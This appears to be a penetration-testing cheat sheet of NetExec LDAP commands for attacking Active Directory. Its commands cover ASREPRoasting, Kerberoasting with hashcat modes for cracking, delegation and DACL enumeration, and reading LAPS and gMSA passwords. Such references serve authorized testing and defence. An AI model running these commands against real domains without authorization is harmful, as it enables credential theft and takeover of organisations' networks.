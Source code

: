 # nxc

% nxc-ldap, netexec, windows, Active directory
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/AD/RECON 

## ldap - LDAP connection
edit /etc/hosts
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain_fqdn> --no-smb
```

## ldap - LDAP Machine Account Quota
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain_fqdn> --no-smb -M maq
```

## ldap - LDAP signing and binding
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain_fqdn> --no-smb -M ldap-checker
```

## ldap - ASREPRoast enum without authentication
User can be a wordlist too (user.txt)
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - ASREPRoast enum with authentication
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - Kerberoasting
Hashcat format  -m 13100
```bash
nxc ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_name>
```

## ldap - Unconstrained delegation
List of all computers et users with the flag TRUSTED_FOR_DELEGATION
```bash
nxc ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```


## ldap - read DACLs of an account
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<user> ACTION=read
```


## ldap - read DACLs of an principal has over a target
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<target_user> -o PRINCIPAL=<user> ACTION=read
```

## ldap - read LAPS
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --module laps
```


## ldap - read gmsa
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --gmsa
```